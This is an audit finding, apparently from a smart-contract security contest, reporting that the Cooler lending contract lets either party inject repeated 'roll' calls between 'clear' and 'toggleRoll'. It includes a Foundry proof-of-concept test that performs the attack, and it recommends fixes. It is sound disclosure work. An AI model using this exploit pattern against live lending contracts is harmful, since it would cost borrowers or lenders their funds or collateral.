 Allarious

high

# It is possible to inject `roll` transactions between `clear` and `toggleRoll`

## Summary
Since `rollable` is by default true for all loan positions, attacker can immediately act after the `clear` transaction to `roll` as many times he needs.

## Vulnerability Detail
### Attack from borrower to lender
When a lender wants to clear a position and calls the clear function with enough allowance for the contract, the related request for borrow clears and the money gets transferred from the lender to the borrower. However, the `rollable` value is `true` by default which allows anyone in the network, specifically the `owner` of the `Cooler` contract to act and roll as many times as needed. This way, the owner of the contract can have an "Option" to trade any amounts of loan with collateral for an arbitrary amount of time. In finance, an option position should be bought by an agreement between two parties but here, borrower can force this option to the lender immediately after the clear transaction.

### Attack from lender to borrower
In this version, if the lender finds the interest rate good enough, can call the `roll` function just after the `clear` function and pay the collateral for interest added to extend the duration and interest rate on the amount as many times as he wants. This is dangerous since if an interest gets too high to an extent that the borrower can not pay the `amount + added interest`, the position defaults and the lender gets all the collateral spent + the initial collateral by the borrower.

## Impact
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L129-L147
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L177

## Code Snippet
```solidity
contract RollDebtTest is Test {
    ERC20 public token1;
    ERC20 public token2;

    CoolerFactory public factory;
    Cooler public cooler;

    address public victim;
    address public attacker;

    uint256 ATTACKER_INITIAL_BALANCE = 10000 ether;
    uint256 VICTIM_INITIAL_BALANCE = 10000 ether;

    function setUp() public {
        victim = vm.addr(1);
        attacker = vm.addr(2);

        token1 = new ERC20("token1", "TK1"); // Collateral
        token2 = new ERC20("token2", "TK2"); // Debt

        token1.mint(attacker, ATTACKER_INITIAL_BALANCE);
        token2.mint(attacker, ATTACKER_INITIAL_BALANCE);

        token1.mint(victim, VICTIM_INITIAL_BALANCE);
        token2.mint(victim, VICTIM_INITIAL_BALANCE);

        factory = new CoolerFactory();
        cooler = Cooler(factory.generate(token1, token2));
    }

    function testRollLoanManyTimes() public {
        // Imagining if lender is EOA or is interacting with the Cooler contract
        // from a contract like clearingHouse, then she can only call the contract
        // through functions individually. (is not using a contract to compose several calls together atomically)
        
        uint256 timestamp = 100;
        uint256 duration = 10 days;
        vm.warp(timestamp);

        vm.startPrank(attacker);

        token1.approve(address(cooler), 120 ether);
        uint256 reqID = cooler.request(
            100 ether,
            1e16, // 1 percent interest
            1e18, // exchanging 1 to 1
            duration
            );

        vm.stopPrank();

        assertTrue(cooler.isActive(reqID)); // Request is active

        vm.startPrank(victim);

        token2.approve(address(cooler), 100 ether);
        uint256 loanID = cooler.clear(reqID); // Victim clear transaction

        vm.stopPrank();

        /**
         * Attacker manipulates orderings so he can inject his own roll transactions between clear and toggelroll
         */

        assertFalse(cooler.isActive(reqID)); // Request is cleared and loan is in place

        assertEq(cooler.getExpiryOf(loanID), duration + timestamp); // getExpiryOf is an added getter function for test purposes, it fetches the expiry value of a loanID
        
        vm.startPrank(attacker);
        for(uint256 i; i < 10; ++i){
            cooler.roll(loanID);
        }
        vm.stopPrank();

        assertEq(cooler.getExpiryOf(loanID), duration * 10 + duration + timestamp);
        /**
         * Injection ends
         */

        vm.prank(victim);
        cooler.toggleRoll(loanID); // Does not matter anymore
    }
}
```

## Tool used

Manual Review

## Recommendation
It would be a good idea to limit the borrower to be able to roll at most once or `MAX_ROLL_ATTEMPTS` inside each `duration`.
Lender should be able to set the default value for the `rollable`. Otherwise, lender needs to use a contract like `ClearingHouse` that calls `clear` and `toggleRoll` atomically.
